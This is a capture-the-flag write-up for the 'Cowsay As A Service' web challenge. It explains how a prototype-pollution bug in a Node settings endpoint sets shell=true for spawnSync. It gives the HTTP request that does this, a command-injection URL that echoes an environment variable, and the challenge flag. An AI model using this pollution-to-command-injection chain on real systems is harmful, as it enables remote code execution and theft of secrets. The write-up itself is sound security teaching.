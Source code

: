 ```yaml
---
description: Prototype pollution leads to RCE
---
```


# Cowsay As A Service

## Description

Enjoy your cowsay life with our Cowsay as a Service!  
You can spawn your private instance from https://cowsay-as-a-service.chal.acsc.asia/.  
  
Notice: Please do not spawn too many instances since our server resource is limited.  
You can check the source code and run it in your local machine before do that.  
Each instances are alive only for 5 minutes.  
But don't worry! You can spawn again even if your instance expired.  


`https://cowsay-as-a-service.chal.acsc.asia/`

{% file src="../../.gitbook/assets/cowsay-as-a-service.tar.gz\_b1f19fe170867369eb5297d2b9d4cc29.gz" caption="Challenge Files" %}

## Solution

The `/usr/games/cowsay` game is run from `child_process.spawnSync`.

```javascript
router.get('/cowsay', (ctx, next) => {
  const setting = settings[ctx.state.user];
  const color = setting?.color || '#000000';

  let cowsay = '';
  if (ctx.request.query.say) {
    const result = child_process.spawnSync('/usr/games/cowsay', [ctx.request.query.say], { timeout: 500 });
    cowsay = result.stdout.toString();
  }
```

### Prototype Pollution

The settings endpoint sets the settings for `ctx.state.user`, which is also equal to the `username` cookie. The setting name is also user-controlled.

```javascript
router.post('/setting/:name', (ctx, next) => {
  if (!settings[ctx.state.user]) {
    settings[ctx.state.user] = {};
  }
  const setting = settings[ctx.state.user];
  setting[ctx.params.name] = ctx.request.body.value;
  ctx.redirect('/cowsay');
});
```

I used `__proto__` as the username, which will set settings for `{}.__proto__`. Then, we can use `shell` as the setting name to set `shell=true` for all objects.

```http
POST /setting/shell HTTP/1.1
Host: localhost:3000

...

{
    "value": true
}
```

This makes the command run within a shell, allowing us to perform command injection:

`http://cowsay-nodes.chal.acsc.asia:64280/cowsay?say=test;echo%20$FLAG`

This will output the `FLAG` environment variable.

![](../../.gitbook/assets/813db7ee6ba24656a515c09f5a719ebc.png)

`ACSC{(oo)<Moooooooo_B09DRWWCSX!}`

